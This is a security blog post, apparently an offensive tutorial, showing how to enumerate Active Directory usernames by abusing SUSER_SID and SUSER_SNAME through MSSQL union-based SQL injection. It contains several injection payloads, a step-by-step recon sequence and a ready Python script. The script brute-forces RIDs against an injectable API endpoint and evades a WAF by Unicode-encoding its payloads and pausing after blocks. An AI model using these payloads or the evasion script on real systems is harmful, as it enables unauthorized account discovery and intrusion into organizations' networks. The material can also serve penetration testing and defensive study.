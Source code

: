 [back](/)

### Username enumeration via SQL injection

Each account or group in the Active Directory has its own security identifier or (SID), which also includes a relative identifier (RID).

What are they needed for ? Windows operating system differentiates the rights in the Active Directory domain of a particular user, thanks to these identifiers, this is extremely important.

![Image](/img/username_enum-from-sqli/3.png)

Imagine that you are migrating from one domain to another, for example from **source.local** to **destination.local**, then the user's SID and RID will be changed. How exactly to preserve the rights of the user who is associated with security groups and a specific SID/RID ?

Naturally it will be changed during domain migration. The fact is that the access token is generated based on all previously created identifiers, including those that were previously assigned to the user. This is how the user's access token to objects is formed.

The SID/RID consists of several components shown in the diagram:

![Image](/img/username_enum-from-sqli/5.jpg)

To find out the SID in a specific domain it is enough to execute the DEFAULT_DOMAIN () MSSQL query, and than using the resulting identifier mask, you can enumerate usernames. Given this access model there is an interesting opportunity for an attacker who found an injection in the MSSQL database.

```
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
```

![Image](/img/username_enum-from-sqli/11.png)

Using the SUSER_SID and SUSER_SNAME queries, it is possible to enumerate usernames in the domain:

```
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000) -- 1
```

![Image](/img/username_enum-from-sqli/6.png)

![Image](/img/username_enum-from-sqli/7.png)

Knowing the structure of the SID and the process of generating RID, you can select 8 bytes related to RID and get a list of usernames in the AD. I wrote a small script to help you do this. It contains WAF bypass elements associated with the waiting time. It also converts each payload character to Unicode, which indicates a non-standard injection:

```
#!/usr/bin/python3

import requests
import time
from requests.exceptions import HTTPError
from termcolor import colored

def convert_to_unicode(char):
 code = hex(ord(str(char)))[2:]
 prefix = "0" * (4 - len(code))
 return f'\\u{prefix}{code}'

def sqli_post(rid):
 val = "123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236"+r+") -- 1"
 res = ""
 for el in val:
  res += convert_to_unicode(el)
 response = requests.post(url, data='{"name":"'+res+'"}', headers = {"Content-Type":"application/json;charset=utf-8"})
 if "403 - Forbidden: Access is denied." in response.text:
  print(colored("[-] Sleeping and WAF cooldown", "red"))
  time.sleep(60)
 if "\\" in response.text:   
  print(colored("[+]"+response.text+"\r\nRID: "+r,"green"))


for url in ['http://10.10.10.10/api/getSOMETHING']:
 try:
  for i in range(500,4000):
   q = hex(i)[2:]
   w = q[1:]
   e = w+"0"+q[:1]
   r = e+"0"*(8-len(e))
   sqli_post(r)

  for i in range(6001,6010):
   q = hex(i)[2:]
   w = q[2:]
   e = q[:2]
   r = w+e+"0"*(8-len(q))
   sqli_post(r)


 except HTTPError as http_err:
  print(f'HTTP error occurred: {http_err}')
 except Exception as err:
  print(f'Other error occurred: {err}')
 else:
  
  print('Success!\r\n')
```

The result will please you =)

![Image](/img/username_enum-from-sqli/12.png)

![Image](/img/username_enum-from-sqli/2.png)

To get a positive enumeration result, start with a sequential enumeration using these queries:

```
123' union select 1,2,3,4,5 -- 1
123' union select 1,2,3,4,@@version -- 1
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
```

For detailed information about the RID pool, you can use the following command:

```
dcdiag / test: ridmanager / v
```

![Image](/img/username_enum-from-sqli/9.png)

It will show the current status of the RID pool, the maximum possible pool, and the next RID that will be assigned to the domain user.

This method is especially effective if you do not have access to the remote call procedure through the **rpcclient** as well as a valid account in the domain:

![Image](/img/username_enum-from-sqli/10.png)

These articles will help you explore the issue in more detail:

[enumerating-domain-accounts](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[how-to-check-the-rid-pool-in-active-directory](https://www.windowstechno.com/how-to-check-the-rid-pool-in-active-directory/)

[varbinary-to-literal-varchar-copy-in-sql-server-2005](https://stackoverflow.com/questions/6424328/varbinary-to-literal-varchar-copy-in-sql-server-2005)

[security-identifiers](https://docs.microsoft.com/ru-ru/windows/security/identity-protection/access-control/security-identifiers)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



